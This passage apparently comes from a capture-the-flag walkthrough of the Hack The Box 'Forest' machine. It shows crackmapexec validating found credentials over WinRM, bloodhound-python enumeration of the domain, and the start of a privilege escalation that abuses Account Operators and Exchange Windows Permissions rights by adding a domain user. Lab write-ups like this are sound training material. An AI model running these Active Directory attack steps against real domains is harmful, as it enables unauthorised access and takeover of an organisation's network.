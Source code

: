 Finally we can use crackmapexec to check if the credentials are valid.

```bash
crackmapexec winrm 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

We have know a foothold in the DC.

# Privilege escalation

To see our ways to escalate privilege we will use BloodHound to visualize all the different ways to do it.  First of all we will recover as much information as we can with **bloodhound-python**.

```bash
bloodhound-python -ns 10.10.10.161 -u svc-alfresco -p s3rvice -d htb.local -c all
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 22S
```

Then we will import this to BloodHound and look for ways to escalate privilege. If we check what groups we our owned user is Account Operators group.

![Untitled](/images/blood.png)

This groups hash a GenericAll Relationship with **Exchange Windows Permissions**, what means that we can add any user to thath group, in addition we can create new domain users, since we are part of Domain Operators. Members of **Exchange Windows Permission** can control the rights and add new permissions to users in the domain since they have the relationship **WriteDacl** with the whole domain.

- First we create a new user

```bash
net user centesiman cente234! /add /domain
The command completed successfully.
```
